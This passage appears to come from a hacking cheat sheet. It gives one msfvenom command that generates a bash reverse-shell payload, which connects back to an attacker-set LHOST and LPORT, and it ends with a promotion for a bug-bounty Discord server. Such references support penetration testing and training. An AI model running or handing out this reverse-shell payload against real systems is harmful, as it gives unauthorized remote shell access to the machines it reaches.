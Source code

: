 ### **Bash**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!




